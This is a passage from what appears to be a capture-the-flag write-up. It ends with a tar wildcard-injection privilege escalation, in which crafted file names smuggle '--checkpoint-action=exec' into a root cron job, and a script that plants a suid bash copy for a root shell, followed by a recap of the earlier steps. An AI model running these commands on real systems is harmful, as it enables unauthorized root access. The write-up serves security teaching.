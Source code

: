 ```bash
cd /home/spooky
echo 'asdf' > '--checkpoint=1'
echo 'asdf' > '--checkpoint-action=exec=sh shell.sh'
```

Now create the file `shell.sh` which creates a 
`bash` binary with `suid` permissions

```bash
#!/bin/bash
cp /bin/bash /home/spooky
chmod +s /home/spooky/bash
```

Now we just wait until the copy is made and then 
create a root shell

```bash
/home/spooky/bash -p
```

![root-flag](/images/apg/apg-root-flag.png)

## Recap
By visiting a hidden directory and modifying a cookie 
value, we're given a unique cipher to break. Comparing 
our ciphertext to potential username values we get a 
starting point for cracking. Through some ASCII 
manipulation we decipher the text and get ssh 
credentials. By abusing a buffer overflow vulnerability 
we escalate our privileges horizontally. A cron job 
vulnerable to wildcard injection gives us root 
privileges.
